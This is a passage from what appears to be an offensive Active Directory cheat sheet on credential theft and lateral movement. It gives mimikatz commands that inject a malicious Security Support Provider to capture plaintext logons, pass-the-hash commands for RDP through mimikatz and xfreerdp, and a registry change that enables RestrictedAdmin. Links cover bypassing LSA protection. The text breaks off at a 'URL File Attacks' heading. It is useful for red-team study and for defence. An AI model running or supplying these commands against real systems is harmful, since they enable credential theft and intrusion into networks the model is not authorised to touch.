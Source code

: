 * LSA as a Protected Process (Userland Land “Fileless” Bypass)
  * [PPLdump](https://github.com/itm4n/PPLdump)
  * [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
* LSA is running as virtualized process (LSAISO) by Credential Guard

```
#Check if a process called lsaiso.exe exists on the running processes
tasklist |findstr lsaiso

#If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
#Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
mimikatz # misc::memssp

#Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
```

* [Detailed Mimikatz Guide](https://adsecurity.org/?page\_id=1821)
* [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

#### **Remote Desktop Protocol**

If the host we want to lateral move to has “RestrictedAdmin” enabled, we can pass the hash using the RDP protocol and get an interactive session without the plaintext password.

* Mimikatz:

```
#We execute pass-the-hash using mimikatz and spawn an instance of mstsc.exe with the "/restrictedadmin" flag
privilege::debug
sekurlsa::pth /user:<Username> /domain:<DomainName> /ntlm:<NTLMHash> /run:"mstsc.exe /restrictedadmin"

#Then just click ok on the RDP dialogue and enjoy an interactive session as the user we impersonated
```

* xFreeRDP:

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress> 
```

If Restricted Admin mode is disabled on the remote machine we can connect on the host using another tool/protocol like psexec or winrm and enable it by creating the following registry key and setting it’s value zero: “HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin”.

#### **URL File Attacks**

* .url file
